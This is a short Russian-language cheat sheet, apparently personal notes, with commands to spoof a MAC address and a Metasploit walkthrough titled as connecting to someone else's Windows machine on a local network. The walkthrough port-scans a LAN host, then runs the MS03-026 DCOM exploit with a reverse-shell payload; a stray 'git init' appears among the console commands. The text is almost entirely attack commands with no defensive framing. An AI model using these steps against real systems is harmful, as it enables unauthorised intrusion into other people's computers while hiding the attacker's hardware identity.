 # met

Смена mac addresa

sudo ifconfig wlan0 down

sudo ifconfig wlan0 hw ether 00:11:22:33:44:55

ifconfig wlan0 up

******************************************************

подключение к чуэой Windows в локальной сети

msfconsole

git init

use auxiliary/scanner/portscan/tcp 

set PORTS 1-3000

set RHOSTS 192.168.0.101

run

search dcom

use exploit/windows/dcerpc/ms03_026_dcom

set payload windows/shell_reverse_tcp

show options

set RHOST 192.168.

set LHOST 192.168.

exploit

